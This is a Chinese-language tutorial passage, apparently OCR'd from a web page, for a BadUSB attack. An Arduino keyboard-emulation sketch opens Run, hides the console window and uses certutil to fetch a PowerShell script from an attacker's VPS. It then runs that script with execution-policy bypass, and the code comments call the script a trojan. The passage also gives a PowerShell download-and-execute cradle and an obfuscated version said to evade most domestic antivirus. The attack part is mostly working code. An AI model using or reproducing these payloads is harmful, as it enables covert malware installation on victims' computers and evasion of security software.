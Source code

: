 vps 同样要使用 python -m SimpleHTTPServer 端口来开启一个服务器

**编写代码**

```
# include <Keyboard.h>
void setup() {
// putpower shell your setup code here, to run once
Keyboard.begin();//开始键盘通讯
delay(3000);//延时
Keyboard.press(KEY_LEFT_GUI);//win键
Keyboard.press('r');//r键
delay(100);
Keyboard.release(KEY_LEFT_GUI);
Keyboard.release('r');
delay(100);
Keyboard.press(KEY_CAPS_LOCK);//利用开大写输小写绕过输入法
Keyboard.release(KEY_CAPS_LOCK);
delay(200);
//Keyboard.println("CMD  /q /d /f:off /v:on /k MODE con: cols=15 lines=1");  //有回显
Keyboard.println("cmd /T:01 /K "@echo  off && mode con:COLS=15 LINES=1"");   //无回显 
delay(200);
Keyboard.press(KEY_RETURN);
Keyboard.release(KEY_RETURN);
delay(200);
Keyboard.println("certutil.exe -urlcache -split -f  vps/payload2.ps1  1.ps1"); //证书下载ps脚本
delay(3000);
Keyboard.println("powershell.exe -executionpolicy bypass -file 1.ps1"); //本地权限绕过执行木马脚本
Keyboard.press(KEY_RETURN);
Keyboard.release(KEY_RETURN);
Keyboard.press(KEY_CAPS_LOCK);
Keyboard.release(KEY_CAPS_LOCK);
Keyboard.end();//结束键盘通讯
}
void loop() {
// put your main code here, to run repeatedly:
}
```

**powershell 混淆远程执行命令 (可过国内大部分主流杀软)**

这是初始的 powershell 远程执行命令，但一般都会被杀软拦截

```
powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('vps/payload2.ps1'))"
```

我们进行变量和管道符脏数据等混淆最终的命令如下

```
cmd /c "set x=p@owershell & echo %x:@=^^"^^"^^"^^"%;"$a='iex ((new-object net.webclient).downl';$b='oadstring(''vps/payload2.ps1''))';iex($a+$b)" | cmd"
```

编写我们的代码
